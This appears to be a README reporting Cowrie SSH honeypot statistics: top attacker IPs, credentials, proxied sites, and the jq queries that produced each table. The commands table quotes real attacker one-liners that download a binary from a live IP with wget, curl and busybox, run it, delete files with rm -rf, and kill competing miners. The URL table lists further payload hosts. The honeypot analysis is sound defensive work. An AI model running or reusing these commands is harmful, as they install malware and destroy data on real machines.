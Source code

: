 ### Successful Login IPs
```ruby
    1449 "194.88.107.163"
    821 "45.227.255.163"
    674 "5.188.86.174"
    643 "62.112.11.86"
    581 "45.227.255.205"
    356 "190.2.144.45"
    300 "109.236.89.61"
    294 "89.39.105.84"
    286 "62.112.11.8"
    286 "5.182.39.64"
```
The following command was used to gather the top 10 Succesful IPs that were able to login.<br>
`cat cowrie.json* | jq '. | select(.eventid | contains("cowrie.login.success")) .src_ip' | sort | uniq -c | sort -bgr | head -n 10`
<br><br>

### Failed Login IPs
```ruby
     44 "199.195.251.205"
      8 "45.227.254.10"
      2 "47.61.62.102"
      2 "194.165.16.89"
      2 "182.84.124.87"
      2 "143.198.220.67"
      2 "119.45.134.38"
      1 "95.70.166.88"
      1 "89.22.183.153"
      1 "89.163.150.234"
```
The following command was used to gather the top 10 IPs that failed to gain access. <br>
`cat cowrie.json* | jq '. | select(.eventid | contains("cowrie.login.failed")) .src_ip' | sort | uniq -c | sort -bgr | head -n 10`
<br><br>


### Top 10 usernames used
```ruby
   9566 "root"
     24 "admin"
     18 "user"
     16 "ubuntu"
     14 "test"
     12 "git"
     10 "postgres"
      8 "tester"
      8 "deploy"
      7 "oracle"
```
The folowing command was used to gather the top 10 usernames.<br>
`cat cowrie.json* | jq '. | select(.username) | .username'  | sort | uniq -c | sort -bgr | head -10`

<br><br>
### Top 10 passwords used
```ruby
  7238 "admin"
   1528 "password"
    671 ""
     50 "alpine"
     43 "123"
     36 "1234"
     24 "123456"
     13 "root"
     11 "test"
     11 "12345"
```

The following command was used to gather the top Passwords. <br>
`cat cowrie.json* | jq '. | select(.password) | .password'  | sort | uniq -c | sort -bgr | head -10`
<br><br>


### Top 10 Commands
```ruby
     17 "rm -rf x86_64; cd /tmp; wget http://107.172.249.148/x86_64; curl -O http://107.172.249.148/x86_64; busybox wget http://107.172.249.148/x86_64; chmod 777 x86_64; ./x86_64 roots; rm -rf *; nc 1 1;"
     17 "cd /tmp; rm -rf x86_64; wget http://107.172.249.148/x86_64; curl -O http://107.172.249.148/x86_64; busybox wget http://107.172.249.148/x86_64; chmod 777 x86_64; ./x86_64 roots; rm -rf *; pkill cnrig; pkill xmrig; pkill YDEdr; pkill ip; pkill fuckjewishpeopl; pkill x-8.6-.ISIS; pkill x86_64; pkill x86;"
      7 "uname -a"
      5 "which ls"
      5 "w"
      5 "uname -m"
      5 "uname"
      5 "top"
      5 "ls -lh $(which ls)"
      5 "lscpu | grep Model"
```
The following command was used to gather this information.<br>
`cat cowrie.json* | jq '. | select(.eventid | contains("cowrie.command.input")) | .input' | sort | uniq -c | sort -bgr | head -n 10`
<br><br>

### Top 10 TCP IP
The list contains a list of websites that was visited by people that were using the honeypot as a proxy
```ruby
   6944 "ip-who.com"
   4110 "i.instagram.com"
   4014 "23.235.255.50"
   4007 "www.google.ru"
   3282 "www.google.com"
   3224 "67.205.145.217"
   2499 "rogers-fido.janraincapture.com"
   2134 "ya.ru"
   2101 "23.52.19.209"
   1849 "208.95.112.1"

```
The following command was used to gathered the top 10 sites that were visited using the proxy. <br>
`cat cowrie.json* | jq '. | select(.eventid | contains("cowrie.direct-tcpip.request")) .dst_ip' | sort | uniq -c | sort -bgr | head -n 10`
<br><br>

### Top files that was downloaded
```ruby
      5 "/root/.ssh/authorized_keys"
      2 ""
```
The following command was ued to gather the top 10 files that were downloaded. <br>
`cat cowrie.json* | jq '. | select(.eventid | contains("cowrie.session.file_download")) | .destfile' |  grep -v "null" | sort | uniq -c | sort -bgr | head -n 10`
<br><br>


### Top 10 URLs
```ruby
    102 "http://107.172.249.148/x86_64"
      2 "http://71.127.148.69/.x/2sh"
      2 "http://71.127.148.69/.x/1sh"
      1 "http://71.127.148.69/.x/3sh"
```

The following command was used to gather URLS that were used to download files. <br>
`cat cowrie.json* | jq '. | select(.eventid | contains("cowrie.session.file_download")) | .url' | grep -v "null" | sort | uniq -c | sort -bgr | head -n 10`

<br><br>
